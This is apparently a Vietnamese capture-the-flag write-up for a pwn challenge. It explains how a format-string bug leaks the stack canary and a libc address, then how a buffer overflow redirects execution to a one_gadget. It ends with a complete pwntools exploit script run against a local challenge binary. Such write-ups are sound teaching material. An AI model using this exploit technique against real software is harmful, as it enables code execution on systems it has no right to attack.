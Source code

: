 # Format String + BOF


**ida:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/521c0109-5ffa-4c19-bd00-2ccea83473bf)


hmm nhìn sơ qua thì ta thấy có 2 lỗi là **fmtstr** ở hàm **printf id với password** và **bof ở hàm read** nhập cho secret

**checks và vm:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/fe11b8f9-86ba-4070-9cce-f48b33b232ec)


hmm tại đây ta thấy có **canary** ngăn ta khai thác lỗi **BOF**, nên việc đầu tiên ta phải leak được **canary** trước

đọc **ida** thì ta thấy ta cần nhập đúng 11byte cho **id** là **01234456789** và **password** là **&WPAbC&M!%8S5X#W**


![image](https://github.com/gookoosss/CTF.-/assets/128712571/720f7a28-66be-4455-bc78-5b0537e6162c)



tại hàm **printf** của id thì **ta sẽ lợi dụng lỗi fmtstr bằng cách dùng %p để leak ra canary** vì canary nằm trên stack trước rbp như trên ảnh

**oke sau khi leak đươc canary rồi thì ta thoải mái chạy đến rip , debug mãi thì thấy bài này làm ret2libc là hiểu quả nhất** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/52426fc0-5344-42e5-9fd6-b1deec719981)



tại rip thì thấy có trỏ đến 1 địa chỉ libc nào đó, **ta sẽ tiếp tục lợi dụng lỗi fmtstr bằng %p lần nữa để leak địa chỉ này từ đó tính được địa chỉ base của libc** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/dc2afc81-ee93-4bfa-9378-382b4cc6d893)

xong bước 1 rồi nè, h bước 2 ta tìm **one gadget** nữa là xong

***note:***

à tại đây ta cần biết thêm **1 kiến thức mới** nữa là **one_gadget**, hiểu đơn giản **one_gadget** trong file libc **là 1 cái offset trỏ đến shellcode mà chứa đầy đủ các thứ ta cần , rất đơn giản và nhanh chóng, tiện lợi**(hạn chế là không phải bài nào cũng dùng được)

![image](https://github.com/gookoosss/CTF.-/assets/128712571/2b0f23ee-841d-43b0-b520-72f2f2365841)

thử từng cái thì chọn cái thứ 2 là đúng :))

**script:**

```
#!/usr/bin/env python3

from pwn import *

p = process('./fmtstr4_patched')
exe = ELF("./fmtstr4_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

gdb.attach(p, gdbscript = '''
b*main+354
b*main+383

c
''')

input()

# leak canary and libc 

payload = b'01234456789' #id
payload += b'%21$p%23$p' #password

p.sendafter(b'ID: ', payload)
p.sendafter(b'Password: ',b'&WPAbC&M!%8S5X#W')

p.recvuntil(b'01234456789')
datas = p.recvuntil(b'Enter', drop = True).split(b'0x') # nhận canary và libc leak ra
canary = int(datas[1], 16)
libc_leak = int(datas[2], 16)
libc.address = libc_leak - 0x24083 # libc base 

log.info("Canary: " + hex(canary))
log.info("libc leak: " + hex(libc_leak))
log.info("libc base: " + hex(libc.address))

one_gadget = libc.address + 0xe3b01


payload = b'a'*0x38 + p64(canary) + p64(0) + p64(one_gadget)
p.sendafter(b'secret: ', payload )



p.interactive()

```

**ra rồi nè hehe**



![image](https://github.com/gookoosss/CTF.-/assets/128712571/aa1c33a3-c2cf-4730-ac20-ed332b5daa18)










